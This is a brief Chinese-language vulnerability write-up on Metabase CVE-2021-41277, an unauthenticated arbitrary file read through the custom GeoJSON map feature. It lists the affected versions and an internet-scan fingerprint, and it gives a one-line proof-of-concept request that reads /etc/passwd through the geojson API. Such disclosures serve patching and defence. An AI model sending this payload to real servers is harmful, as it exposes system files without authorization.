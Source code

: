 # Metabase geojson 任意文件读取漏洞 CVE-2021-41277

## 漏洞描述

在受影响的版本中，自定义 GeoJSON 地图（admin->settings->maps->custom maps->add a map）操作缺少权限验证，攻击者可通过该漏洞获得敏感信息

## 漏洞影响

<a-checkbox checked>metabase version < 0.40.5</a-checkbox></br>

<a-checkbox checked>metabase version >= 1.0.0, < 1.40.5</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="metabase"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1637464175182-c424a2a6-1b8c-4550-adc7-55574c923347.png)

验证POC

```python
/api/geojson?url=file:/etc/passwd
```

![img](../../../.vuepress/public/img/1637464214932-3531a00c-8968-4104-9f6d-a0962cdef98e.png)